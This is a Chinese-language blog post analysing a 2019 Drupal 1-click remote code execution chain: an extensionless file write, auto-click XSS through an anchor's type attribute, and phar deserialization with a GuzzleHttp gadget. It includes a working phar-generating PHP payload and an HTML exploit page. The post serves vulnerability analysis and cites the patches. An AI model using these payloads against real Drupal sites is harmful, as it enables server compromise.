 ```yaml
---
title: Drupal 1-click to RCE分析
date: 2019-04-19 19:13:56
tags:
- phar
- rce
- xss
---
```


2019年4月11日，zdi博客公开了一篇[A SERIES OF UNFORTUNATE IMAGES: DRUPAL 1-CLICK TO RCE EXPLOIT CHAIN DETAILED](https://www.zerodayinitiative.com/blog/2019/4/11/a-series-of-unfortunate-images-drupal-1-click-to-rce-exploit-chain-detailed).

整个漏洞的各个部分没什么特别的，巧妙的是，攻击者使用了3个漏洞+几个小trick，把所有的漏洞链接起来却成了一个还不错的利用链，现在我们就来一起看看整个漏洞.

<!--more-->


# 无后缀文件写入

在Drupal的机制中，设定了这样一条规则。

用户上传的图片文件名将会被保留，如果出现文件名相同的情况，那么文件名后面就会被跟上`_0`,`_1`依次递增。

在Drupal中为了兼容各种编码，在处理上传文件名时，Drupal会对文件名对相应的处理，如果出现值小于`0x20`的字符，那么就会将其转化为`_`。
![image.png-130.8kB][1]

但如果文件名中，如果出现了`\x80`到`\xff`的字符时，PHP就会抛出`PREG_BAD_UTF8_ERROR`，如果发生错误，那么`preg_replace`就会返回NULL，`$basename`就会被置为NULL。

![image.png-25.4kB][2]

当basename为空时，后面的文件内容会被写入到形似`_0`的文件内
![image.png-297.1kB][3]

在这个基础下，原本会被上传到
```
 /sites/default/files/pictures/<YYYY-MM>/
```

则会被写入
```
 /sites/default/files/pictures/<YYYY-MM>/_0
```

**当服务端开启了评论头像上传，或者是拥有作者账号时**

攻击者可以通过上传一张恶意构造的gif图，然后再上传一张带有恶意字符的同一张图，那么就会将恶意图片的内容写入到相应目录的`_0`中

![image.png-214.9kB][4]

但如果我们直接访问这个文件时，该文件可能不会解析，这是因为
1、浏览器首先会根据服务端给出的content-type解析页面，而服务端一般不会给空后缀的文件设置`content-type`，或者设置为`application/octet-stream`
2、其次浏览器会根据文件内容做简单的判断，如果文件的开头为`<html>`，则部分浏览器会将其解析为html
3、部分浏览器还可能会设置默认的content-type，但大部分浏览器会选择不解析该文件。

这时候我们就需要一个很特殊的小trick了，**a标签可以设置打开文件的type**

当你访问该页面时，页面会被解析为html并执行相应的代码。
```
<html>
<head>
</head>
  <body>
  <a id='a' href="http://127.0.0.1/drupal-8.6.2/sites/default/files/2019-04/_6" type="text/html">321321</a>

  <script type="text/javascript">
    var a  = document.getElementById('a')
    a.click()
  </script>
  </body>
</html>
```

当被攻击者访问该页面时，我们就可以执行任意的xss，这为后续的利用带来了很大的便利，我们有了一个同源环境下的任意js执行点，让我们继续看。


# phar反序列化RCE

2018年BlackHat大会上的Sam Thomas分享的File Operation Induced Unserialization via the “phar://” Stream Wrapper议题，原文[https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf ](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf )。

在该议题中提到，在PHP中存在一个叫做[Stream API](https://secure.php.net/manual/zh/internals2.ze1.streams.php)，通过注册拓展可以注册相应的伪协议，而phar这个拓展就注册了`phar://`这个stream wrapper。

在我们知道创宇404实验室安全研究员seaii曾经的研究([https://paper.seebug.org/680/](https://paper.seebug.org/680/))中表示，所有的文件函数都支持stream wrapper。

也就是说，如果我们找到可控的文件操作函数，其参数可控为phar文件，那么我们就可以通过反序列化执行js。

在Drupal中，存在file system功能，其中就有一个功能，会把传入的地址做一次`is_dir`的判断，这里就存在这个问题

![image.png-337kB][5]

![image.png-82.8kB][6]

直接使用下面的payload生成文件
```
<?php

namespace GuzzleHttp\Psr7{
    class FnStream{

        public $_fn_close = "phpinfo";

        public function __destruct()
        {
            if (isset($this->_fn_close)) {
                call_user_func($this->_fn_close);
            }
        }
    }
}

namespace{
    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new \GuzzleHttp\Psr7\FnStream();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
}
?>
```
修改后缀为png之后，传图片到服务端，并在`file system`中设置
```
phar://./sites/default/files/2019-04/drupal.png
```

即可触发

![image.png-215kB][7]

# 漏洞要求

这个漏洞在Drual8.6.6的更新中被修复，所以漏洞要求为

- <= Durpal 8.6.6
- 服务端开启评论配图或者攻击者拥有author以上权限的账号
- 被攻击者需要访问攻击者的url

当上面三点同时成立时，这个攻击链就可以被成立

# 漏洞补丁

## 无后缀文件写入 SA-CORE-2019-004

[https://www.drupal.org/SA-CORE-2019-004](https://www.drupal.org/SA-CORE-2019-004)

![image.png-40.6kB][8]

如果出现该错误直接抛出，不继续写入

[https://github.com/drupal/drupal/commit/82307e02cf974d48335e723c93dfe343894e1a61#diff-5c54acb01b2253384cfbebdc696a60e7](https://github.com/drupal/drupal/commit/82307e02cf974d48335e723c93dfe343894e1a61#diff-5c54acb01b2253384cfbebdc696a60e7)

## phar反序列化  SA-CORE-2019-002

[https://www.drupal.org/SA-CORE-2019-002](https://www.drupal.org/SA-CORE-2019-002)


# 写在最后

回顾整个漏洞，不难发现其实整个漏洞都是由很多个不起眼的小漏洞构成的，Drupal的反序列化POP链已经被公开许久，phar漏洞也已经爆出一年，在2019年初，Drupal也更新修复了这个点，而`preg_replace`报错会抛出错误我相信也不是特别特别的特性，把这三个漏洞配合上一个很特别的a标签设置content-type的trick，就成了一个很漂亮的漏洞链。


  [1]: http://static.zybuluo.com/LoRexxar/rkle8o5mqjrbojwjk5tjzx1w/image.png
  [2]: http://static.zybuluo.com/LoRexxar/indn6qfpopamyrayhdcce9la/image.png
  [3]: http://static.zybuluo.com/LoRexxar/s5oij4hcmjf0k2z0e0glftfy/image.png
  [4]: http://static.zybuluo.com/LoRexxar/64be2k19ac5nknfenv5ze9d2/image.png
  [5]: http://static.zybuluo.com/LoRexxar/02tpqziep6h2sq4oerq5nel9/image.png
  [6]: http://static.zybuluo.com/LoRexxar/7bprh31be2igfao2ozo7gkia/image.png
  [7]: http://static.zybuluo.com/LoRexxar/4j71xgb53o74nwfue1fp2y01/image.png
  [8]: http://static.zybuluo.com/LoRexxar/105tpluq69zpoggbzcj879hc/image.png
